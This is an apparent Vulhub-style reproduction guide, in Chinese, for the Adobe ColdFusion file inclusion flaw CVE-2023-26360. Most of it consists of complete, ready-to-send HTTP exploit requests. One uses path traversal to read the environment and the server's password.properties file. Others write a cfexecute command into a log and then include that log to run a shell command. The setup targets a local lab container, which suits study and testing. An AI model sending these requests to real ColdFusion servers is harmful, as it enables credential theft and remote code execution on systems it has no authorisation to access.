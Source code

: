 # Adobe ColdFusion 本地文件包含漏洞 CVE-2023-26360

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 2018 Update 15 和 2021 Update 5 版本及以前，存在一处文件包含漏洞。攻击者可以利用该漏洞在服务器上执行任意代码。

参考链接：

- [https://xz.aliyun.com/t/13392](https://xz.aliyun.com/t/13392)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153449288.png)

## 漏洞复现

发送如下请求即可读取文件`/proc/self/environ`：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 82
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../proc/self/environ"}}
```

可以在返回包中找到Adobe ColdFusion的根目录`/opt/coldfusion/cfusion`：

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153705716.png)

从`../../../../../../../../opt/coldfusion/cfusion/lib/password.properties`中读取服务器密码：

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153740311.png)

想要利用文件包含漏洞执行任意代码，需要先发送如下请求来写入CFM脚本：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 67
Content-Type: application/x-www-form-urlencoded

_variables=<cfexecute name='id' outputFile='/tmp/awesome_poc' ></cfexecute>
```

然后包含日志文件，执行该CFM代码：

```
POST /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 111
Content-Type: application/x-www-form-urlencoded

_variables={"_metadata":{"classname":"../../../../../../../../opt/coldfusion/cfusion/logs/coldfusion-out.log"}}
```

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153957320.png)

可见，`id`命令的执行结果已经被写入`/tmp/awesome_poc：

![](images/Adobe%20ColdFusion%20本地文件包含漏洞%20CVE-2023-26360/image-20240226153931349.png)
